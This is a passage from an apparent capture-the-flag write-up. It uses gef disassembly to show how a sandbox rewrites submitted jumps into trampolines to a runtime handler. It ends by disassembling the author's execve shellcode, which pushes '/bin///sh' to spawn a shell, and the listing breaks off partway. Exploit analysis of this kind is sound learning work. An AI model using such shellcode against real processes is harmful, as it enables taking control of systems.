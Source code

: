 Let's check what our ("sanitized"?) code looks like:

```
gef➤  disass 0x13371337000,+64
Dump of assembler code from 0x13371337000 to 0x13371337040:
=> 0x0000013371337000:  pushw  0x0
   0x0000013371337004:  pushw  0x133
   0x0000013371337008:  pushw  0x7133
   0x000001337133700c:  pushw  0x7200
   0x0000013371337010:  pushw  0x0
   0x0000013371337014:  pushw  0x5555
   0x0000013371337018:  pushw  0x5555
   0x000001337133701c:  pushw  0x72de
   0x0000013371337020:  jmp    0x13371337024
   0x0000013371337022:  jmp    0x13371337027
   0x0000013371337024:  jmp    QWORD PTR [rsp]
   0x0000013371337027:  xor    rax,rax
   0x000001337133702a:  inc    QWORD PTR [rax]
   0x000001337133702d:  nop    DWORD PTR cs:[rax+rax*1+0x0]
   0x0000013371337036:  data16 nop WORD PTR cs:[rax+rax*1+0x0]
End of assembler dump.
```

So it took our `jmp` and replaced it with a familiar sequence of pushes, followed by a jump to `0x0000013371337024` and the familiar `jmp    QWORD PTR [rsp]`.

This time, we are jumping to 0x5555555572de:

```
gef➤  disass 0x5555555572de,+64
Dump of assembler code from 0x5555555572de to 0x55555555731e:
   0x00005555555572de <to_runtime_jump+0>:      push   rsp
   0x00005555555572df <to_runtime_jump+1>:      pushf  
   0x00005555555572e0 <to_runtime_jump+2>:      push   r15
   0x00005555555572e2 <to_runtime_jump+4>:      push   r14
   0x00005555555572e4 <to_runtime_jump+6>:      push   r13
   0x00005555555572e6 <to_runtime_jump+8>:      push   r12
   0x00005555555572e8 <to_runtime_jump+10>:     push   r11
   0x00005555555572ea <to_runtime_jump+12>:     push   r10
   0x00005555555572ec <to_runtime_jump+14>:     push   r9
   0x00005555555572ee <to_runtime_jump+16>:     push   r8
   0x00005555555572f0 <to_runtime_jump+18>:     push   rdi
   0x00005555555572f1 <to_runtime_jump+19>:     push   rsi
...
```

This looks very similar to `to_runtime_sycall` at the start, but presumably it does something different (we'll investigate more later).

But let's see how our shellcode is doing:

**Before we take the jump**
```
gef➤  disass 0x13371337200,+64
Dump of assembler code from 0x13371337200 to 0x13371337240:
   0x0000013371337200:  push   0x68
   0x0000013371337202:  movabs rax,0x732f2f2f6e69622f
   0x000001337133720c:  push   rax
   0x000001337133720d:  mov    rdi,rsp
   0x0000013371337210:  push   0x1016972
   0x0000013371337215:  xor    DWORD PTR [rsp],0x1010101
   0x000001337133721c:  xor    esi,esi
   0x000001337133721e:  push   rsi
   0x000001337133721f:  push   0x8
   0x0000013371337221:  pop    rsi
   0x0000013371337222:  add    rsi,rsp
   0x0000013371337225:  push   rsi
   0x0000013371337226:  mov    rsi,rsp
```